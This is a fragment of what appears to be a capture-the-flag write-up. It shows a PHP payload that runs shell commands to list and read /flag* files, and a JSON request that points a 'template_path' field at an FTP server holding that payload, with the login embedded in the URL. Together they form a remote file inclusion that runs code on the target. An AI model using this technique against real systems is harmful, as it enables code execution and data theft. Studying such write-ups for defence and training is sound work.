 

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-17.png)

```php
<?php
system("ls -la /flag*");
system("cat /flag*");
?>
```

```json
{
  "template_path": "ftp://da192e7de042469196ddc45e20c9eb88:i2rMACU1fteQbrIEqh3zAqdNezrtTpKH@eu-central-1.sftpcloud.io"
}
```
![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-18.png)

![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-19.png)
Get the flag. 🎉
